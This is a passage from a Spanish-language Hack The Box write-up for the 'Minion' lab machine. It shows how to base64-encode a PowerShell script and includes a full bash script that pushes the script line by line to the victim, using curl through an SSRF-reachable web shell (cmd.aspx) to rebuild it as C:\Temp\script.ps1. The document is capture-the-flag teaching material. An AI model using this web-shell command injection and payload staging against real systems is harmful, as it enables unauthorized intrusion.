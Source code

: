 
Lo que tenemos que hacer ahora es meter este script en la maquina victima, pero debemos hacerlo en un formato en la que `powershell` lo entienda por ello usaremos `iconv` para separ cada caracter y despues convertirlo en base64.

```bash
cat icmp.ps1 | iconv -t utf-16le | base64 -w 0 > icmp.ps1.b64
```

Ahora vamos a crear un script en `bash` que nos ayude a automatizar la inserción de nuestro script en la maquina victima, vamos a utilizar `curl` pero como tiene un numero limite de caracteres por linea que podemos enviar, a nuestro script `icmp.ps1.b64` vamos a aplicarle el comando `fold` para que tenga un numero de caracteres igual por cada linea y asi evitar problemas.

```bash
❯ /bin/cat automatize.sh
#!/bin/bash

function ctrl_c(){
    echo -e "\[!] Saliendo..."
    tput cnorm; exit 1
}

#CTRL_C
trap ctrl_c INT

declare -r main_url="http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx"

counter=0

echo; tput civis; for line in $(cat icmp.ps1.b64); do 
    command="echo $line >> C:\Temp\script.ps1"

    echo -ne "[+] Total de lineas enviadas [$counter/87]\r"

    curl -s -X GET -G $main_url --data-urlencode "xcmd=$command" &>/dev/null

    let counter+=1

done; tput cnorm
```

Al ejecutar el script lo que hara sera crear el archivo `script.ps1` en la ruta `C:\Temp\` con el contenido del `icmp.ps1.b64`, esto podemos verificarlo si desde el navegador le hacemos un `type` para leerlo y nos muestra con exist status 0.


![](/assets/images/HTB/htb-writeup-Minion/mini9.PNG)
